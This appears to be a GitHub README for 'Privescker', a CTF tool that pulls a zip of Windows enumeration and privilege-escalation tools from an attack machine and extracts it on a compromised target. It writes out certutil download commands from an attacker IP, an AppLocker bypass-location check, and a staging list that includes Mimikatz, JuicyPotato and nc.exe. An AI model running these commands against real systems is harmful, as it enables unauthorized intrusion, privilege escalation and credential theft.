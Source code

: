 # Privescker

**Advisory**

All the binaries/scripts/code of Privescker should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.
* * *

**What is Privescker?**

This was a tool I created to make life easier when doing CTF exercises on Windows machines. Initially I created Privescker to embed a number of binaries which would be dumped onto the target when executed. However, I thought a way of making it more customisable without recompiling every time you want a new binary I made this version posted here.

Privescker is a single binary that will download a single **zip** file containing all of your favourite Windows enumeration tools and scripts and then extract them on the target.

**Now you may think - why bother with the binary and just extract the zip yourself?**

It's not that simple. In a cmd shell it's a pain in the backside especially on older versions of Windows. PowerShell is doable but you may have instances where PowerShell is limited or not available at all.

**Other things it can do**

I have also built in the functionality to pass an argument and check AppLocker bypass locations to see whether you have write access to them. This is very handy when working on restrictive boxes.

```
privescker.exe -p
```

I have more planned for future released such as building your zip files and getting the latest versions of specific tools for you depending on user configs and other ideas. More to come on this in future.

**The manual way**

We all know the manual way of dumping files onto Windows is quite laborious, such as:
```
certutil -urlcache -f http://10.10.14.12:8000/enum.exe c:\users\public\enum.exe
```
Now multiply that by all the scripts, enum and post exploitation tools you want on the machine and it becomes time consuming.

**The Privescker way**

Once the privescker.exe binary is on the machine:
```
privescker.exe -u http://10.10.14.12:8000/enum-tools.zip -p c:\users\public
```

Then all your files you need to move to Windows will be dumped to the location you chose.

**Notes**

This is probably not advised on pentests as I'm sure AV will light up like a Christmas tree with all the different scripts and tools being extracted on the machine.

**Usage**

First you will need to get all your common and favourite tools and scripts and add them to a zip file on your attack machine (you can add subfolders within your zip if you please).

Personally here are some of the ones I have:
accesschk.exe
jaws.ps1
nc.exe
plink.exe
PowerUp.ps1
Seatbelt.exe
SharpHound.exe
SharpHound.ps1
Sherlock.ps1
Watson.exe
winPEAS.bat
winPEAS.exe
JuicyPotato.exe
PrintSpoofer.exe
RunAsUser.exe
Mimikatz.exe
wget.exe

The choice is yours, add what you want.

The next step is to set up a webserver on your attack box, for example:
```
python -m SimpleHTTPServer
```

Now from your Windows shell, download privescker.exe;

```
certutil -urlcache -f http://10.10.14.12:8000/privescker.exe c:\users\public\privescker.exe
```

Leaving your webserver running, just execute privescker like this to get all your favourite tools.

```
privescker.exe -u http://10.10.14.12:8000/enum-tools.zip -p c:\users\public
```

That is literally it - small simple tool to make life easier with getting all your common enumeration, privesc and post exploitation tools on the machine for you in one go.

Hope others find it helpful.

Feel free to use the Release version or compile it yourself if you prefer.

:-)








